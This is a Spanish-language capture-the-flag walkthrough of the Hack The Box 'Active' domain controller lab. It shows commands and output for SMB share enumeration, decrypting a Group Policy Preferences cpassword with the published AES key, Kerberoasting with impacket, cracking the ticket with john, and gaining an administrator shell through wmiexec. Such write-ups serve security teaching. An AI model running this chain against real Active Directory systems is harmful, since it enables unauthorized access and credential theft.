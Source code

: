 ip -> 10.10.10.100

Ports
-----
```console
└─$ nmap -T5 -Pn -v 10.10.10.100 # -> 53,88,139,135,389,445,464,593,636,3269,3268,5722,9389
└─$ nmap -sCV -T5 10.10.10.100 -Pn -v -p389,445,464,593,636,3269,3268,5722,9389
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site:e)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site:e)
3269/tcp open  tcpwrapped
5722/tcp open  msrpc         Microsoft Windows RPC
9389/tcp open  mc-nmf        .NET Message Framing
```

Tenemos un directorio activo por los puertos que hemos encontrado, pero lo mejor será encontrar primero algún 
usaurio para empezar.

Aunque tengamos el puerto 135 no hay mucha suerte:

```console
└─$ rpcclient -U "" 10.10.10.100 -N
rpcclient $> enumdomusers # ->  NT_STATUS_ACCESS_DENIED
```

Puerto 53
---------
El comando dig no me ha reportado ninguna informacion relevante.

Puerto 445 (SMB)
----------------

Investigando, si pone que esta Firmado (signing:True) no se podrán hacer ataques SMBrelays
```console
└─$ crackmapexec smb 10.10.10.100
SMB   10.10.10.100  445  DC  [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True)
└─$ smbclient -L //10.10.10.100/ -N
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
└─$ smbclient //10.10.10.100/Replication -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
Nos ha creado la carpeta Active.htb con todos los recursos.

```console
└─$ tree 
.
├── DfsrPrivate
│   ├── ConflictAndDeleted
│   ├── Deleted
│   └── Installing
├── Policies
│   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│   │   ├── GPT.INI
│   │   ├── Group Policy
│   │   │   └── GPE.INI
│   │   ├── MACHINE
│   │   │   ├── Microsoft
│   │   │   │   └── Windows NT
│   │   │   │       └── SecEdit
│   │   │   │           └── GptTmpl.inf
│   │   │   ├── Preferences
│   │   │   │   └── Groups
│   │   │   │       └── Groups.xml
│   │   │   └── Registry.pol
│   │   └── USER
│   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│       ├── GPT.INI
│       ├── MACHINE
│       │   └── Microsoft
│       │       └── Windows NT
│       │           └── SecEdit
│       │               └── GptTmpl.inf
│       └── USER
└── scripts
```
Hay un montón de cosas, pero el recurso "Groups.xml" es lo critico. Que esté este recurso significa que esto es
una copia del SYSVOL (al original no teniamos acceso pero a esto si). En este archivo está la contraseña 
encriptada del administrador del sistema, (la encriptacion es AES-256, un algoritmo muy fuerte).
El asunto esque si tenemos el hash (cpassword) en el groups.xml podemos romper dicho hash muy rapidamente con el 
cmando gpp ya que microsoft publico la clave de dicho algoritmo en 2012. 
> Algoritmo -> llave (en el script gpp-decrypt) + texto cifrado -> texto_descrifrado    
>  key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"    
>  texto_crifrado = campo cpassword del Groups.xml  

```console
└─$ cd /Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
└─$ cat Groups.xml
(...)
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS" # -> Para este usario
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18  # Esto es la contraseña
```
Vamos a validar este usario 
```
└─$ crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStro
```

Con SMBmap puede acceder ahora con credenciales, a la user.txt 
```console
└─$ smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --download Users/SVC_TGS/Desktop/user.txt
```

Ahora podemos acceder al rpc porque ya tenemos creds.
```console
└─$ rpcclient 10.10.10.100 -U "SVC_TGS%GPPstillStandingStrong2k18"
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4] 
user:[Guest] rid:[0x1f5]    # -> Usuario invitado, por defecto en todos los sistemas
user:[krbtgt] rid:[0x1f6]   # -> usuario creado por el kerberos
user:[SVC_TGS] rid:[0x44f]  # -> Nuestro usaurio actual
rpcclient $> enumdomgroups
group:[Domain Admins] rid:[0x200]
rpcclient $> querygroupmem 0x200
	rid:[0x1f4] attr:[0x7]
rpcclient $> queryuser 0x1f4
	User Name   :	Administrator
rpcclient $> querydispinfo
index: 0xdea RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xe19 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0xeb2 RID: 0x44f acb: 0x00000210 Account: SVC_TGS	Name: SVC_TGS	Desc: (null)
```
Nada interesante, ahora hay que probar con el puerto 88 (kerberos)

```console
└─$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb

# Todo el hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Ticketmaster1968 (?)
└─$ impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.10.10.100
```




